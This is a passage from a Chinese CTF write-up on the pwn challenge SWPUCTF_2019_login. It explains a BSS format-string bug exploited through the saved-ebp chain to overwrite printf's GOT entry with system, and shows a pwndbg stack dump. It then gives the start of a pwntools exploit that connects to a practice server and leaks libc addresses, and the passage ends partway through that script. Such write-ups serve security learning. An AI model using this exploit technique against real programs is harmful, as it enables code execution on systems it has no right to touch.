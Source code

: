 ## 3.SWPUCTF_2019_login（BSS段上的格式化字符串利用，bp链）

和上面的题如出一辙，不过这个题呢没有args链可以用，有bp链我们改bp链，bp链如下

在ebp指向的一条单链，这里没有开pie，可以有条件进行got表更改

```c
pwndbg> stack 40
00:0000│ esp 0xffffd110 —▸ 0xffffd158 —▸ 0xffffd168 —▸ 0xffffd178 ◂— 0x0
01:0004│     0xffffd114 ◂— 0x32 /* '2' */
02:0008│     0xffffd118 —▸ 0x804b0a0 ◂— 0xa31 /* '1\n' */
03:000c│     0xffffd11c —▸ 0xf7ec4d87 (read+39) —▸ 0xfff0003d ◂— 0xfff0003d
04:0010│     0xffffd120 —▸ 0xf7fb6d80 (_IO_2_1_stdout_) ◂— 0xfbad2887
05:0014│     0xffffd124 —▸ 0x804b0a0 ◂— 0xa31 /* '1\n' */
06:0018│     0xffffd128 —▸ 0xf7e45cab (puts+11) ◂— add    edi, 0x170355
07:001c│     0xffffd12c ◂— 0x0
08:0020│     0xffffd130 —▸ 0xf7fb6000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1d7d8c
09:0024│     0xffffd134 ◂— 0x0
0a:0028│     0xffffd138 —▸ 0xf7fb6000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1d7d8c
0b:002c│     0xffffd13c —▸ 0x8048572 ◂— add    esp, 0x10
0c:0030│     0xffffd140 ◂— 0x0
0d:0034│     0xffffd144 —▸ 0x804b0a0 ◂— 0xa31 /* '1\n' */
0e:0038│     0xffffd148 ◂— 0x32 /* '2' */
0f:003c│     0xffffd14c —▸ 0x80485fb ◂— add    esp, 0x10
10:0040│     0xffffd150 —▸ 0x8048dfd ◂— push   0x6f6c6c65 /* 'hello, %s' */
11:0044│     0xffffd154 —▸ 0x804b080 ◂— 0xa31 /* '1\n' */
12:0048│ ebp 0xffffd158 —▸ 0xffffd168 —▸ 0xffffd178 ◂— 0x0
13:004c│     0xffffd15c —▸ 0x8048603 ◂— nop    
14:0050│     0xffffd160 —▸ 0x8048e20 ◂— inc    edx /* 'Base maybe not easy......
```

我们将got地址拆分成4部分写入，一共八次，前面四次写入got，后面四次写入got+1

我们用%6$hhn来修改%10$处的数据，然后利用%10$hhn来修改%14$处的数据，使得%14$处为printf的GOT表地址，同样的方法，让%15$处为printf_got + 1的值，这样，我们在printf里用%14$hhn和%15$hn一次性完成对printf的got表数据后3字节完成了修改。第一个字节不用修改，因为都是一样的值。

需要的注意的是和args不一样，bp链的利用需要复原bp链，不然会有错误，因为返回地方是不对的，所以需要进行一个复原

对于system函数的函数的写入要一次性去写入，不然会有指向错误，system拆分两半不知道写哪里去了都

exp

```python
#coding:utf8  
from pwn import *  
from LibcSearcher import *  
import time  
  
#r = process('./SWPUCTF_2019_login')  
r = remote('node4.buuoj.cn','28653')  
elf = ELF('./SWPUCTF_2019_login')  
printf_got = 0x804B014  
  
r.sendafter('Please input your name: \n','dddd')  
  
#泄露__libc_start_main的地址  
r.sendlineafter('Please input your password:','%15$p')  
  
r.recvuntil('0x')  
__libc_start_main_addr = int(r.recvuntil('\n',drop=True),16) - 0xF1  
libc = LibcSearcher('__libc_start_main',__libc_start_main_addr)  
libc_base = __libc_start_main_addr - libc.dump('__libc_start_main')  
system_addr = libc_base + libc.dump('system')  
  
  

r.sendlineafter('Try again!\n','%10$p')  
```